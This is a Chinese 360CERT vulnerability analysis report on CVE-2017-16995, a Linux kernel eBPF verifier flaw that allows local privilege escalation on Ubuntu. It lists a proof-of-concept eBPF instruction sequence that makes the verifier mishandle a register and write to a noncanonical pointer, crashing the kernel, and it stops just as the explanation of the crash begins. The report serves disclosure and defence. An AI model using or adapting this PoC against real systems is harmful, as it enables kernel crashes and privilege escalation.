 > 原文链接: https://www.anquanke.com//post/id/101923 


# CVE-2017-16995: Ubuntu本地提权分析报告


                                阅读量   
                                **120629**
                            
                        |
                        
                                                            评论
                                <b>
                                    <a target="_blank">2</a>
                                </b>
                                                                                    



[![](https://p4.ssl.qhimg.com/t01336cd515279aa95a.png)](https://p4.ssl.qhimg.com/t01336cd515279aa95a.png)

> 报告编号： B6-2018-032101
报告来源： 360CERT
报告作者： 360CERT
更新日期： 2018-03-21

## 漏洞背景

近日，360-CERT监测到编号为CVE-2017-16995的Linux内核漏洞攻击代码被发布，及时发布了预警通告并继续跟进。该漏洞最早由Google project zero披露，并公开了相关poc。2017年12月23日，相关提权代码被公布（见参考资料8），日前出现的提权代码是修改过来的版本。

BPF(Berkeley Packet Filter)是一个用于过滤(filter)网络报文(packet)的架构,其中著名的tcpdump,wireshark都使用到了它（具体介绍见参考资料2）。而eBPF就是BPF的一种扩展。然而在Linux内核实现中，存在一种绕过操作可以导致本地提权。



## Poc分析技术细节

### Poc概要

分析环境：

内核:v4.14-rc1

主要代码(见参考资料6):
1. BPF_LD_MAP_FD(BPF_REG_ARG1, mapfd),
1. BPF_MOV64_REG(BPF_REG_TMP, BPF_REG_FP), // fill r0 with pointer to map value
1. BPF_ALU64_IMM(BPF_ADD, BPF_REG_TMP, -4), // allocate 4 bytes stack
1. BPF_MOV32_IMM(BPF_REG_ARG2, 1),
1. BPF_STX_MEM(BPF_W, BPF_REG_TMP, BPF_REG_ARG2, 0),
1. BPF_MOV64_REG(BPF_REG_ARG2, BPF_REG_TMP),
1. BPF_EMIT_CALL(BPF_FUNC_map_lookup_elem),
1. BPF_JMP_IMM(BPF_JNE, BPF_REG_0, 0, 2),
1.  BPF_MOV64_REG(BPF_REG_0, 0), // prepare exit
1.  BPF_EXIT_INSN(), // exit
1.  BPF_MOV32_IMM(BPF_REG_1, 0xffffffff), // r1 = 0xffff’ffff, mistreated as 0xffff’ffff’ffff’ffff
1.  BPF_ALU64_IMM(BPF_ADD, BPF_REG_1, 1), // r1 = 0x1’0000’0000, mistreated as 0
1.  BPF_ALU64_IMM(BPF_LSH, BPF_REG_1, 28), // r1 = 0x1000’0000’0000’0000, mistreated as 0
1.  BPF_ALU64_REG(BPF_ADD, BPF_REG_0, BPF_REG_1), // compute noncanonical pointer
1.  BPF_MOV32_IMM(BPF_REG_1, 0xdeadbeef),
1.  BPF_STX_MEM(BPF_W, BPF_REG_0, BPF_REG_1, 0), // crash by writing to noncanonical pointer
1.  BPF_MOV32_IMM(BPF_REG_0, 0), // terminate to make the verifier happy
1. BPF_EXIT_INSN()
要理清这段代码为什么会造成崩溃，需要理解bpf程序的执行流程(见参考资料2)

